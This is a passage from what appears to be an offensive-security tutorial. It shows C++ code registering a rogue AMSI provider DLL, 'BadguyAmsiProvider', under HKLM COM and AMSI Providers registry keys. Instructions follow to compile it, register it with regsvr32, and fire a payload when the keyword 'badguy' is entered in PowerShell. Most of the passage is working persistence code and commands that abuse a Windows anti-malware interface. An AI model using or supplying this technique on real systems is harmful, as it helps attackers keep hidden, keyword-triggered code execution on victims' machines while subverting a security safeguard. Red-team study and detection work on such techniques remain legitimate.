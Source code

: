 ```C++
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls\\InProcServer32", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, modulePath);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, L"ThreadingModel", L"Both");
	if (FAILED(hr)) return hr;

	// Register this CLSID as an anti-malware provider.
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Microsoft\\AMSI\\Providers\\%ls", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, L"BadguyAmsiProvider");
	if (FAILED(hr)) return hr;

	return S_OK;
}

STDAPI DllUnregisterServer()
{
	wchar_t clsidString[40];
	if (StringFromGUID2(__uuidof(BadguyAmsiProvider), clsidString, ARRAYSIZE(clsidString)) == 0)
	{
		return E_UNEXPECTED;
	}

	// Unregister this CLSID as an anti-malware provider.
	wchar_t keyPath[200];
	HRESULT hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Microsoft\\AMSI\\Providers\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	LONG status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	// Unregister this CLSID as a COM server.
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	return S_OK;
}
#pragma endregion
```


Compile this C++ code to **your_compiled_ AMSI_provider.dll**
The AMSI Provider can be registered in the system with the *regsvr32* utility.
```powershell
regsvr32 your_compiled_ AMSI_provider.dll

```
When the keyword(**badguy** in our case) is passed to a PowerShell console, our payload will be executed.
